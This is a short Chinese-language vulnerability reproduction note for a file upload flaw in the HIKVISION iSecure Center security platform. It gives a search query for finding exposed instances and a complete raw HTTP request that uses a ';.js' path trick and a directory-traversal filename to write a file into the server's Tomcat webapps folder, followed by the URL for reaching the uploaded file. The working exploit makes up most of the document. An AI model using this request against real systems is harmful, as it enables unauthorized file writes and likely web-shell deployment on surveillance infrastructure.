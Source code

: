 # HIKVISION iSecure Center综合安防管理平台文件上传

## 1.漏洞描述

HIKVISION iSecure Center综合安防管理平台存在文件上传漏洞

## 2.搜索语法

```plain
app="HIKVISION-iSecure-Center"
```

## 3.漏洞复现

```plain
POST /center/api/files;.js HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 251
Content-Type: multipart/form-data; boundary=e54e7e5834c8c50e92189959fe7227a4

--e54e7e5834c8c50e92189959fe7227a4
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hhh.txt"
Content-Type: application/octet-stream

hhh
--e54e7e5834c8c50e92189959fe7227a4--
```

响应包如下：

![image-20240613201208922](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240613201208922.png)

拼接路径访问：

/clusterMgr/hhh.txt;.js

![image-20240613201305546](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240613201305546.png)